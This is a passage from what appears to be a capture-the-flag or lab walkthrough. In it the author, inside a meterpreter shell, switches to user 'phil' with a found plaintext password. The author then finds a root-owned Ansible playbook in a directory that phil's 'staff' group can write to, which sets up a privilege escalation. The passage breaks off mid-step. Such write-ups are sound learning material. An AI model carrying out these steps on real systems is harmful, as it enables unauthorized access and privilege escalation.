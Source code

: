 There is some credential for phil user, and allow us to impersonate to that user :

```shell
meterpreter > shell
su - phil
```

Result:

```text
Password: DocPhillovestoInject123
```

```shell
id
```

Result:

```text
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
```

Exploring the filefystem, there is an ansible playbook file `/opt/automation/tasks/playbook_1.yml` :

```yaml
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
```

This playbook is owned by root user :

```shell
ls -la
```

Result:

```text
total 12
drwxrwxr-x 2 root staff 4096 Apr 11 21:30 .
drwxr-xr-x 3 root root  4096 Oct 20 04:23 ..
-rw-r--r-- 1 root root   150 Apr 11 21:30 playbook_1.yml
```

This playbook is intended to set a systemd unit to be enabled and started.

It is interesting to note that this folder is writable to members of group `staff`, and phil is a member of this group


```shell
id                            
```

Result:
